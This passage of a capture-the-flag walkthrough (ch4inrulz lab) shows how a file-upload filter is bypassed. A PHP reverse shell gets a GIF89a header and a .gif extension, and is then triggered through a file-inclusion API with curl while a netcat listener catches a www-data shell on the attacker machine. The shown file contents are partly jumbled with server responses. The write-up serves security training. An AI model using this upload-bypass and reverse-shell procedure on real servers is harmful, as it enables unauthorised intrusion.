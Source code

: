 After logging in in, we can already move to the `/uploader` tool as previously discovered. 

![Uploader](/img/ch4inrulz/uploader.png){:class="img-responsive center-block"}

By uploading some test files, I've noticed that we can only upload images. But we can try to trick it by getting `php-reverse-shell` and adding `gif` file header into the exploit. 

{% highlight text %}
root@kali:~# vi php-reverse-shell.php
root@kali:~# file php-reverse-shell.php
php-reverse-shell.php: GIF image data, version 89a, 2570 x 16188
root@kali:~# cat php-reverse-shell.php
GIF89a

<?php

File is an image - image/gif.Sorry, only JPG, JPEG, PNG & GIF files are allowed.Sorry, your file was not uploaded. 
{% endhighlight%}

In addition, we have to change the extension of the shell. 

{% highlight text %}
root@kali:~# mv php-reverse-shell.php php-reverse-shell.gif

File is an image - image/gif.The file php-reverse-shell.gif has been uploaded to my uploads path. 
{% endhighlight %}

Now we have to find the `upload` path. This was the most time consuming part as `dirb` and `gobuster` with different wordlists didn't seem to find anything valuable. In addition, there were no clues in the system. 

After a few hours, I've found that `my uploads` may be just `frank uploads`. Still nothing, so after few more hours of fiddling, here we have `FRANKuploads`. We can now get to our uploaded reverse shell with file api, while running a listener. 

{% highlight text %}
root@kali:~# curl -X POST -d file=/var/www/development/uploader/FRANKuploads/php-reverse-shell.gif 10.0.0.14:8011/api/files_api.php

root@kali:~# nc -lvp 1337
listening on [any] 1337 ...
10.0.0.14: inverse host lookup failed: Unknown host
connect to [10.0.0.4] from (UNKNOWN) [10.0.0.14] 33643
Linux ubuntu 2.6.35-19-generic #28-Ubuntu SMP Sun Aug 29 06:34:38 UTC 2010 x86_64 GNU/Linux
 05:38:18 up 46 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: can't access tty; job control turned off
$ whoami
www-data
{% endhighlight %}
